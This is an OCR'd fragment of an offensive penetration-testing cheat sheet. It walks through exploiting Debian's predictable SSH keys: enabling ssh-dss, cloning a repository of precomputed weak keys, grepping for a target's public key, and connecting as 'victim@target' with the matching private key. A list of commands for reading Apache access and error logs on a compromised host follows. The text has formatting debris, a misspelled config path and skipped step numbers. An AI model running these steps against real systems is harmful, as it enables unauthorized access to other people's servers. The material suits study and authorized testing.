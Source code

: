 #### `echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshs_config`&#x20;

#### `/etc/init.d/ssh restart` \`\`

#### Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

#### `git clone https://github.com/g0tmi1k/debian-ssh`

#### &#x20;`cd debian-ssh`&#x20;

#### `tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2`

#### 3. Grab the first 20 or 30 bytes from the key file shown above starting with the "AAAA..." portion and grep the unpacked keys with it as:

#### `grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'` `dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub`

#### 5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

#### `ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934` \`\`

#### And you should connect without requiring a password. If stuck, the -vvv verbosity should provide enough details as to why.

log files\\

#### `cat /etc/httpd/logs/access_log`

#### &#x20;`cat /etc/httpd/logs/access.log`&#x20;

#### `cat /etc/httpd/logs/error_log`&#x20;

#### `cat /etc/httpd/logs/error.log`&#x20;

#### `cat /var/log/apache2/access_log`&#x20;

#### `cat /var/log/apache2/access.log`&#x20;

#### `cat /var/log/apache2/error_log`&#x20;

#### `cat /var/log/apache2/error.log`&#x20;

#### `cat /var/log/apache/access_log`&#x20;
